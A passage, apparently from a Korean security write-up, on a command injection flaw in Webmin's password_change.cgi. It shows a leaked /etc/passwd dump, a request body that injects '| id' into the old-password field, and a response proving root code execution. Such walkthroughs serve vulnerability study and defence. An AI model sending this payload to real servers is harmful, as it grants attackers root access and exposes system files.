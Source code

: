 ```xml
...
</head>
<body data-uri="/password_change.cgi" >
 <div class="container-fluid col-lg-10 col-lg-offset-1" data-dcontainer="1">
<div class="panel panel-default">
<div class="panel-heading">
<table class="header"><tr>
<td id="headln2l" class="invisible"></td>
<td data-current-module-name="" id='headln2c'><span data-main_title></span></td>
<td id="headln2r"></td></tr></table>
</div>
<div class="panel-body">
<hr>
<center><h3>Failed to change password : The current password is incorrectroot:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:65534:65534:Kernel Overflow User:/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
...
```

<br>
<br>

`root`가 아닌 다른 계정으로 시도해본다. `root`권한으로 새로운 webmin 계정 생성이 가능하고, 해당 계정에 대한 첫 접근 시에, 기존과 동일한 패스워드 변경 화면이 나온다.  

```bash
user=guest&pam=&expired=2&old=asdf| id&new1=qwer&new2=qwer
```

<br>
<br>

정상적인 응답값 아래에 원격 코드 실행에 대한 응답값이 들어있다.

```xml
...
</head>
<body data-uri="/password_change.cgi" >
 <div class="container-fluid col-lg-10 col-lg-offset-1" data-dcontainer="1">
<div class="panel panel-default">
<div class="panel-heading">
<table class="header"><tr>
<td id="headln2l" class="invisible"></td>
<td data-current-module-name="" id='headln2c'><span data-main_title></span></td>
<td id="headln2r"></td></tr></table>
</div>
<div class="panel-body">
<hr>
<center><h3>Failed to change password : The current password is incorrectuid=0(root) gid=0(root) groups=0(root) context=unconfined_u:system_r:initrc_t:s0
</h3></center>
<hr>
</div>
...
```